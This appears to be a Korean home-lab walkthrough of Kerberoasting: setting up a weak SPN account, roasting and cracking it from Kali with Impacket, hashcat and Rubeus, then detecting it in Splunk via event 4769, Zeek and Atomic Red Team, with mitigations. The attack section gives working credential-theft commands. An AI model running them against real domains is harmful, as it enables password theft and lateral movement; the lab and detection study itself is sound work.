

# 랩: Kerberoasting { #lab-kerberoasting }

<div class="dfir-meta" markdown>
**랩:** `lab.local` · DC01 `10.10.10.20` · Win10 `10.10.10.30` · Splunk는 core `10.10.10.10` · **최종 수정:** 2026-10-23
</div>

!!! abstract "한 문장 요약"
    홈 랩에서 Kerberoasting을 처음부터 끝까지 — 원리, 취약한 SPN 계정 준비, Kali에서 roast·크랙, 그리고 Splunk에서 Windows 이벤트 4769로 탐지.

!!! note "공부 쪽 vs 탐지 쪽"
    이건 실습 버전이에요. 원리와 탐지 레퍼런스는 [공격 기법 › Kerberoasting](../../../adversary/kerberoasting.md)에, 시험 전략 관점은 [Active Directory](../active-directory.md#credential-attacks)에 있습니다.

## 1. 왜 되는가 { #how-it-works }

사용자가 어떤 서비스(MSSQL, 웹 등)에 접근하려 하면, 도메인 컨트롤러(KDC)에게 그 서비스의 <strong>서비스 티켓(TGS)</strong>을 달라고 요청합니다. 핵심은 이거예요.

> KDC가 내주는 TGS의 일부는 그 서비스를 실행하는 **서비스 계정의 비밀번호 해시**로 암호화되어 있다.

Kerberos는 티켓을 **줄 때** "이 사람이 그 서비스에 접근 권한이 있는지"를 확인하지 않아요. 그 확인은 나중에 서비스 쪽에서 합니다. 그래서 **아무 도메인 사용자나** SPN(Service Principal Name)이 걸린 계정의 TGS를 요청할 수 있어요.

공격은 네 단계예요.



대상 서비스에 접속하지도, 로그온 실패를 남기지도 않고 평범해 보이는 Kerberos 요청만 남아요. 서비스 계정은 비밀번호가 약하고 잘 안 바뀌는 경우가 많아서 통합니다.

이건 **스푸핑이 아니에요.** 그래서 Responder 포이즈닝과 달리 OSCP 시험에서 **허용**됩니다 ([시험 규칙](../exam-format.md#restricted)).

## 2. 랩 준비 (DC01에서 한 번) { #lab-setup }

SPN이 걸린 약한 비밀번호 계정과, 공격자로 쓸 평범한 사용자가 필요해요. DC01에 관리자로, PowerShell에서:

```powershell
# 1) 취약한 서비스 계정 — SPN 등록, 일부러 약한 비밀번호
New-ADUser -Name "svc_mssql" -SamAccountName svc_mssql `
  -UserPrincipalName svc_mssql@lab.local `
  -AccountPassword (ConvertTo-SecureString "Password1" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
setspn -S MSSQLSvc/db01.lab.local:1433 svc_mssql

# 2) 공격자로 쓸 평범한 도메인 사용자
New-ADUser -Name "j.doe" -SamAccountName j.doe `
  -AccountPassword (ConvertTo-SecureString "Welcome1!" -AsPlainText -Force) `
  -Enabled $true
```

`setspn -S MSSQLSvc/db01.lab.local:1433 svc_mssql` 이 `svc_mssql` 에 SPN을 등록합니다 — **SPN이 걸려야만 Kerberoasting 대상이 돼요.** 비밀번호 `Password1` 은 `rockyou.txt` 에 있어서 크랙이 몇 초면 끝나요. 흐름이 익으면 `Autumn2026!` 처럼 rockyou에 없는 걸로 바꿔 "안 깨지는 경우"도 겪어 보세요.

## 3. 공격 실행 (Kali에서) { #attack }

시험에 맞춰 Linux 도구(Impacket)로 합니다. Kali VM이나 호스트 노트북(`10.10.10.1`)에서 돌리면 돼요. Kerberos는 **이름**으로 동작하니 이름 해석부터:

```bash
export DC=10.10.10.20
export DOMAIN=lab.local
echo "$DC dc01.lab.local dc01 lab.local" | sudo tee -a /etc/hosts
```

### 3.1 SPN 계정 찾기 { #enumerate }

```bash
impacket-GetUserSPNs lab.local/j.doe:'Welcome1!' -dc-ip $DC
```

`impacket-GetUserSPNs` 가 LDAP으로 "SPN이 걸린 계정"을 가져옵니다. 인자는 `도메인/사용자:비밀번호`, `-dc-ip` 로 물을 DC를 지정해요.

```text title="출력 예시"
ServicePrincipalName           Name       MemberOf  PasswordLastSet      LastLogon
-----------------------------  ---------  --------  -------------------  ---------
MSSQLSvc/db01.lab.local:1433   svc_mssql            2026-10-23 09:12:01  <never>
```

아직 티켓을 요청한 건 아니고 대상 확인만 한 단계예요.

### 3.2 티켓 요청 { #request }

```bash
impacket-GetUserSPNs lab.local/j.doe:'Welcome1!' -dc-ip $DC -request -outputfile kerberoast.txt
```

`-request` 가 실제로 각 SPN 계정의 TGS를 요청해서 크랙 가능한 형태로 파일에 저장합니다.

```text title="kerberoast.txt (한 줄, 생략)"
$krb5tgs$23$*svc_mssql$LAB.LOCAL$MSSQLSvc/db01.lab.local:1433*$a1b2...<긴 16진수>...9f0e
```

`$krb5tgs$23$` 가 중요해요. `krb5tgs` 는 Kerberos TGS 해시, `23` 은 암호화 방식이 **RC4(etype 23 / 0x17)**. RC4는 크랙이 빨라 공격자에게 유리하고, 방어자에겐 탐지 신호가 됩니다(§4). AES 티켓이면 `$krb5tgs$18$` 로 나오고 훨씬 느려요.

### 3.3 오프라인 크랙 { #crack }

```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

`-m 13100` 이 "Kerberoast(RC4 TGS) 해시"라고 알려주는 모드예요 — 모드를 틀리면 안 깨집니다. 성공하면 비밀번호가 뒤에 붙어 나와요:

```text
$krb5tgs$23$*svc_mssql$LAB.LOCAL$...<생략>...:Password1
                                              ^^^^^^^^^  크랙된 비밀번호
```

이제 `svc_mssql:Password1` 을 "어디서나 다 시도" 단계에 넣습니다 → [Active Directory › 루팅](../active-directory.md#looting). 서비스 계정은 권한이 센 경우가 많아 종종 다음 호스트로 이어져요.

### (대안) Windows에서 Rubeus로 { #rubeus }

Win10에서 도메인 사용자로 로그인한 상태라면 한 줄이에요.

```powershell
.\Rubeus.exe kerberoast /nowrap
```

`/nowrap` 은 해시를 한 줄로 내보내 hashcat에 붙이기 편하게 합니다.

## 4. Splunk 탐지 { #detection }

Kerberoasting은 DC에 **이벤트 4769**를 남깁니다.

이벤트 코드 **4769 — "A Kerberos service ticket was requested"** 는 누군가 TGS를 요청할 때마다 **DC의 Security 로그**에 남아요. 정상 업무에서도 하루에 수천 번 찍히니(파일 서버·메일 접속마다), "4769가 있다"가 아니라 <strong>"수상한 모양의 4769"</strong>를 찾습니다.

| 필드 | 수상한 값 | 이유 |
|---|---|---|
| `Ticket_Encryption_Type` | `0x17` (RC4) | 요즘 윈도우 기본은 AES(`0x12`). RC4 요청은 공격 도구가 약한 암호화를 고른 흔적 |
| `Service_Name` | 한 계정이 짧은 시간에 **여러 개** | 정상 사용자는 서비스 한둘만. 한 계정이 SPN을 긁으면 roasting |

### 4.0 먼저 감사 켜기 { #enable-auditing }

랩 감사 정책에 Kerberos 서비스 티켓 항목이 아직 없어서 4769가 안 남아요. DC01에서:

```cmd
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
```

이 이벤트는 **DC01의 Security 로그**에 남으니, DC01의 Universal Forwarder가 Security 채널을 Splunk로 보내야 해요. 흔적은 공격한 호스트가 아니라 **DC**에 남는다는 점을 기억하세요.

### 4.1 SPL 한 줄씩 { #spl }

SPL은 파이프 `|` 로 명령을 이어 붙여요. 왼쪽에서 데이터를 좁히고 `|` 마다 가공합니다. 먼저 데이터가 들어오는지 확인:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769
```

`index=wineventlog` 는 윈도우 로그 인덱스(지침대로 인덱스 명시 — `index=*` 금지). `source="WinEventLog:Security"` 는 Security 채널만. `EventCode=4769` 는 서비스 티켓 요청만. 파이프 없이 나열하면 전부 AND 조건이에요.

RC4만 거릅니다:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17
```

컴퓨터 계정(SPN이 `$` 로 끝남)과 krbtgt를 빼요:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17
  Service_Name!="*$" Service_Name!="krbtgt"
```

`!=` 는 같지 않음, `*` 는 와일드카드라 `Service_Name!="*$"` 는 "서비스 이름이 `$` 로 끝나지 않는 것"이에요.

마지막으로 요청자별로 묶어 sweep을 드러냅니다:

```spl
index=wineventlog source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type=0x17 Service_Name!="*$"
| stats dc(Service_Name) as spn_count values(Service_Name) as services by Account_Name, Client_Address
| where spn_count > 3
```

`stats` 는 묶어서 통계를 냅니다. `dc(Service_Name)` 는 서로 다른 서비스 이름의 수(distinct count)를 `spn_count` 로, `values(Service_Name)` 는 실제 이름들을 `services` 로 모으고, `by Account_Name, Client_Address` 는 요청 계정과 출발지 IP별로 묶어요. `| where spn_count > 3` 은 서로 다른 SPN을 4개 이상 요청한 경우만 남깁니다.

```text title="결과 예시"
Account_Name   Client_Address   spn_count   services
------------   --------------   ---------   -----------------------------------------
j.doe          10.10.10.30      7           MSSQLSvc/db01... HTTP/web01... CIFS/fs01...
```

한 계정이, 공격한 박스에서, 짧은 시간에 서로 다른 SPN 7개를 RC4로 요청 — Kerberoasting의 전형적인 모양이에요. `Account_Name` 과 `Client_Address` 가 조사 시작점입니다.

!!! note "필드가 추출 안 될 때"
    `Ticket_Encryption_Type` 이 필드로 안 잡히면 원문에서 뽑으세요: `| rex field=Message "Ticket Encryption Type:\s+(?<enc>0x[0-9a-fA-F]+)"` 그다음 `| search enc=0x17`. `rex` 는 정규식 캡처 그룹을 `enc` 라는 새 필드로 꺼냅니다.

### 4.2 Atomic Red Team으로 재현 { #atomic }

Kerberoasting은 **T1558.003** 이에요. Win10에서:

```powershell
Invoke-AtomicTest T1558.003 -ShowDetails
Invoke-AtomicTest T1558.003
```

실행한 뒤 위 쿼리로 4769가 뜨는지 확인 — 랩이 지향하는 공격→탐지 사이클이에요.

## 5. Zeek (센서 스택) { #zeek }

Zeek 센서가 올라가면 Kerberos 트래픽이 `kerberos.log` 에 `request_type`(AS/TGS), `service`(요청한 SPN), `success`, 암호화 정보와 함께 남아요. 네트워크 신호도 같아요 — 한 출발지에서 TGS 요청이 쏟아지고 약한 암호화를 씁니다. 호스트 로그(4769)와 네트워크 로그(`kerberos.log`)를 교차 검증하는 게 헌팅의 정석이에요. [네트워크](../../../network/index.md) 참고.

## 6. 방어·완화 (리포트용) { #mitigation }

- 서비스 계정을 **gMSA**(그룹 관리 서비스 계정)로 — 길고 자동 교체되는 비밀번호라 크랙이 사실상 불가능.
- 꼭 일반 계정이면 **25자 이상** 비밀번호. 오프라인 크랙이라 길면 못 깹니다.
- RC4를 끄고 **AES만** 허용 — `0x17` 티켓 자체가 안 나오게.
- **RC4 4769** 요청을 상시 모니터링(위 SPL을 저장 검색으로).

## 관련 페이지 { #related-pages }

- [공격 기법 › Kerberoasting](../../../adversary/kerberoasting.md) (탐지 레퍼런스) · [Active Directory](../active-directory.md#credential-attacks) · [시험 구조 › 금지 도구](../exam-format.md#restricted)
- 사촌 격 기법: AS-REP Roasting(비밀번호도 필요 없음) — [공격 기법 › AS-REP Roasting](../../../adversary/asrep-roasting.md)

## 참고 자료 { #references }

- [OffSec — OSCP Exam with AD Preparation](https://help.offsec.com/hc/en-us/articles/4547917816468-Offensive-Security-OSCP-Exam-with-AD-Preparation)
- [MITRE ATT&CK T1558.003 — Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
